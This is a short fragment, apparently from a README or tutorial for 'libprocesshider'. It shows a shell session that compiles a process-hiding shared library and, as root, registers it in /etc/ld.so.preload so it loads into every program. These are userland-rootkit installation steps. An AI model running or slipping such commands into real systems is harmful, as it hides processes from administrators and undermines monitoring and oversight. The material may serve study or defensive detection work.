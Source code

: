 gianluca@sid:~/hide$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
gianluca@sid:~/hide$ sudo mv libprocesshider.so /usr/local/lib/

root@sid:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload


